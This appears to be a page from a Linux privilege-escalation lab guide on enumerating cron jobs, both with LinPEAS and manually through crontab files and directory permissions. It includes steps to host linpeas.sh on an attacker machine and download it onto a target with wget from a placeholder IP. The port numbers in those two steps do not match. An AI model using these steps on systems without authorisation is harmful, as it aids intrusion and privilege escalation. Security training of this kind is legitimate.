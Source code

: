 ### **ENUMERATING CRON JOBS USING LINPEAS**

1.  Set up an HTTP server on your attacker machine in the directory where `linpeas.sh` is located:  
    `python3 -m http.server 80`  
    
    ![](../../../../img/Linux-Environment/60.png)

2.  Use the following command on the target machine to download LinPEAS:  
    `wget http://[IP-ADRESS]:8000/linpeas.sh`
    
    ![](../../../../img/Linux-Environment/61.png)

3.  Run LinPEAS to enumerate system cron jobs:  

    ![](../../../../img/Linux-Environment/62.png) 

    ??? info "NOTE"

        LinPEAS enumerates the cron jobs and displays the same information found manually.

    ![](../../../../img/Linux-Environment/63.png)

    ??? info "NOTE"

        Red/Yellow in LinPEAS indicates a 95% chance that the finding can be exploited for privilege escalation

### **ENUMERATING SYSTEM CRON JOBS MANUALLY**

1.  The first place to check for cron jobs is in the system crontab file:  
    `cat /etc/crontab`  

    ![](../../../../img/Linux-Environment/64.png)

**HERE WE CAN SEE THAT TWO CRON JOBS ARE RUNNING ON THIS HOST:**

1.  The first cron job runs every minute, executing the `overwrite.sh` script.

2.  The second cron job runs every minute, executing the `/usr/local/bin/compress.sh` script.

3.  If no cron jobs are found in the crontab file, or if these ones cannot be exploited, check for custom jobs in all of the cron directories:  
    `ls -l /etc/cron*`  
    
    ![](../../../../img/Linux-Environment/65.png)

    ??? info "NOTE"

        All five additional directories where cron jobs can execute from are shown. No custom cron jobs were found; these are all standard jobs commonly found by default

### **ENUMERATING USER CRON JOBS MANUALLY**

1.  After enumerating all the system crontabs, check for user cron jobs (hidden cron jobs):  
    `ls -l /var/spool/cron/crontabs`  
    
    ![](../../../../img/Linux-Environment/66.png)
    
    ??? info "NOTE"

        Standard users cannot access the directory where user cron jobs are stored.

     
2.  And when we check the /var/spool/cron folder permissions, we can see why.  
    `ls -l /var/spool/cron | grep "crontabs"`  

    ![](../../../../img/Linux-Environment/67.png) 

    ??? info "NOTE"

        The 'T' sticky bit is a permission bit set on a directory that allows only the owner or the root user to delete or rename the files within it.